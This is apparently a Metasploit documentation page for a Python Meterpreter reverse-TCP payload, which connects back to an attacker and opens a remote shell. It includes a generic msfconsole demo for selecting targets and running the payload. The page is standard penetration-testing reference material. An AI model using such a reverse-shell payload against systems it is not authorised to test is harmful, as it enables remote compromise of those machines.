 ## Python Meterpreter Shell, Reverse TCP Inline

Connect back to the attacker and spawn a Meterpreter shell


## Module Name
payload/python/meterpreter_reverse_tcp

## Authors
* Spencer McIntyre





## Platforms
* python

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/python/meterpreter_reverse_tcp
msf payload(meterpreter_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(meterpreter_reverse_tcp) > set TARGET <target-id>
msf payload(meterpreter_reverse_tcp) > show options
   ... show and set options ...
msf payload(meterpreter_reverse_tcp) > run
```
    
    